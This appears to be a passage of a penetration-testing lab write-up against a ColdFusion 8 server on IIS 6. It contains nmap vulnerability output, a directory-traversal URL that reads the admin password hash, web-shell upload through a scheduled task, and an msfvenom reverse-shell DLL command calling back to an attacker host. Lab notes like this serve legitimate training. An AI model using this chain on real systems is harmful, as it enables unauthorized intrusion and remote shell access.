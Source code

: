 ```txt
| http-enum: 
|   /CFIDE/administrator/enter.cfm: ColdFusion Admin Console
|   /CFIDE/administrator/entman/index.cfm: ColdFusion Admin Console
|   /cfide/install.cfm: ColdFusion Admin Console
|   /CFIDE/administrator/archives/index.cfm: ColdFusion Admin Console
|   /CFIDE/wizards/common/_logintowizard.cfm: ColdFusion Admin Console
|_  /CFIDE/componentutils/login.cfm: ColdFusion Admin Console
|_http-title: Under Construction
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-methods: 
|_  Potentially risky methods: TRACE
| vulners: 
|   cpe:/a:microsoft:internet_information_services:6.0: 
|     	PACKETSTORM:93313	6.0	https://vulners.com/packetstorm/PACKETSTORM:93313	*EXPLOIT*
|     	CVE-2009-4445	6.0	https://vulners.com/cve/CVE-2009-4445
|_    	CVE-2009-4444	6.0	https://vulners.com/cve/CVE-2009-4444
| http-vuln-cve2010-2861: 
|   VULNERABLE:
|   Adobe ColdFusion Directory Traversal Vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:42342  CVE:CVE-2010-2861
|       Multiple directory traversal vulnerabilities in the administrator console
|       in Adobe ColdFusion 9.0.1 and earlier allow remote attackers to read arbitrary files via the
|       locale parameter
|     Disclosure date: 2010-08-10
|     Extra information:
|       
|     ColdFusion8
|       HMAC: 29CD6E8ED2107734A161F0C0891695CBE3EBC86A
|       Salt: 1676898888758
|       Hash: AAFDC23870ECBCD3D557B6423A8982134E17927E
|   
|     References:
|       https://www.securityfocus.com/bid/42342
|       http://www.blackhatacademy.org/security101/Cold_Fusion_Hacking
|       https://www.tenable.com/plugins/nessus/48340
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2861
|_      https://nvd.nist.gov/vuln/detail/CVE-2010-2861
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/6.0
```
- There is a Cold Fusion console at http://10.11.1.10/CFIDE/administrator/enter.cfm. 
- Crack the hash for the password using:
    ```url
    http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en
    ```
    - The hash we get is `AAFDC23870ECBCD3D557B6423A8982134E17927E` and can be cracked using crackstation: pass123. It coincides with the one found using nmap vuln scanning.
- once this hash is found we can log-in using admin / pass123.
- We can use a webshell for ColdFusion using `/usr/share/webshells/cfm/cfexec.cfm`. In this CMS under "debugging and logging" there is an ability to schedule a task. 
![image](https://user-images.githubusercontent.com/48137513/220129433-accc61f3-0175-4600-a89d-c70c73251249.png)
- The shceduled task can be run ASAP using "Scheduled Tasks" -> "Actions" -> "Run Scheduled Task".
- Browsing to "http://10.11.1.10/CFIDE/cfexec.cfm" we have our CFM web shell. We can get a reverse shell by using `rundll32.exe` to call a file from my SMB share I created on my kali box using IMPACKET. 
    - On kali generate a msfvenom reverse shell and start a SMB share with IMPACKET
      ```sh
      msfvenom -p windows/shell_reverse_tcp -f dll LHOST=192.168.x.x LPORT=443 -o shell.dll